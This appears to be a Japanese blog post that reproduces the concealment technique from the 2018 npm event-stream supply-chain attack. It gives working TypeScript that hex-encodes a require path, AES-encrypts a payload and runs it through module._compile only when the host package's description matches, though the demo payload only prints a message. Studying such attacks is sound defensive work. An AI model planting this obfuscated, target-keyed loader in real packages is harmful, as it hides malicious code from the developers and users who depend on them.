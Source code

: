 # 概要

本記事は直近で起きた npm パッケージ event-stream への攻撃のうち、任意のコードを忍ばせる手法の追試です。

⚠️ 今回は攻撃者がパッケージのメンテナであったために発生したことであり、この記事を読んで誰でも攻撃できるようになるわけではありません。
⚠️ 念のためですが、この方法を悪用しないようにお願いします。

# 参考

[2018/11/27 に判明した npm パッケージ乗っ取りについて](https://qiita.com/azs/items/b15bc456bee3a7892950)

# コード

https://github.com/kik4/npm-evil-code-injection

# ポイント

1. 攻撃コードの暗号化
2. 攻撃を実行するコードの require パスの隠蔽
3. package.json の description を見て攻撃対象を限定

# 攻撃手順

```ts
// 正常なコード
export default () => console.log("This is good code.");
```

```ts
// 攻撃コード（仮）
console.log("This is evil code.");
```

上記の正常なコードに攻撃コードを忍ばせます。そしてこのパッケージを実行する npm パッケージの description が`run evil code`の時だけ攻撃コードが実行されるようにしましょう。

## 1. 読み込みファイルの隠蔽

正常なコードを書いたファイルを index.ts、攻撃コードとは別に攻撃コードを忍ばせるファイルを evil.ts とします。
まずは index.ts から evil.ts を require します。evil() の実行が攻撃コードの実行になります。

```ts
export default () => {
  const evil = require("./evil.ts").default;
  evil();
  console.log("This is good code.");
};
```

今回はこの require の中の文字列が hex エンコードされていました。`./evil.ts`をエンコードすると`2E2F6576696C`になります。
これをデコード処理を入れて書き換えます。

```ts
export default () => {
  const evil = require(Buffer.from("2E2F6576696C", "hex").toString()).default;
  evil();
  console.log("This is good code.");
};
```

一見して何のファイルが読み込まれているかわからなくなりましたね。

## 2. 攻撃コードの暗号化

攻撃を忍ばせるコード evil.ts を用意する前に、攻撃コードを AES 暗号化します。暗号化は node コマンドで REPL を起動させてちゃっちゃとやってしまいます。
暗号化する文字列は攻撃コードである`console.log("This is evil code.")`ですね。
パスワードは description で起動させる`run evil code`です。複合化時に実行しているパッケージのdescriptionを拾って与えることで、攻撃対象を限定します。

```js
var cipher = require("crypto").createCipher("aes-256-cbc", "run evil code");
var encoded =
  cipher.update('console.log("This is evil code.")', "utf8", "hex") +
  cipher.final("hex");
encoded;
```

結果は`cfdc36e155f1213c266810ac757ceb743e036c6aa08703d564010029511c7af099387eb23604e1b308233f4eba23dd0f`です。

## 3. 攻撃コードを実行するコードの用意

ようやく evil.ts の用意です。この中で暗号化したコードの複合と実行を行います。

```ts
import * as crypto from "crypto";

// _compile()の定義が無かったので追加
declare global {
  interface NodeModule {
    _compile(arg1: string, arg2: string): any;
  }
}

export default () => {
  const data =
    "cfdc36e155f1213c266810ac757ceb743e036c6aa08703d564010029511c7af099387eb23604e1b308233f4eba23dd0f";
  const decipher = crypto.createDecipher(
    "aes256",
    process.env.npm_package_description || ""
  );

  // パスワードが違うとこけるのでキャッチ
  try {
    const payload =
      decipher.update(data, "hex", "utf8") + decipher.final("utf8");
    module._compile(payload, "");
  } catch {}
};
```

# 攻撃を受けてみる

攻撃を受ける側のパッケージを用意します。上記のパッケージは公開してもしょうがないので今回はローカルインポートにします。
package.json では攻撃コードが実行されるように description を`run evil code`にしておきます。

```json
{
  // 略
  "description": "run evil code",
  // 略
  "dependencies": {
    "library": "../library" // ローカルインポート
    // 略
  }
}
```

実行コードはこんな感じ。

```ts
import library from "library";

console.log("Hello world!!");
library();
```

これを実行すると出力は以下の通りです。

```
// 期待する結果
Hello world!!
This is good code.

// 実際の結果
Hello world!!
This is evil code.
This is good code.
```

description を書き換えると`This is evil code.`が出てきません。攻撃対象を絞れています。
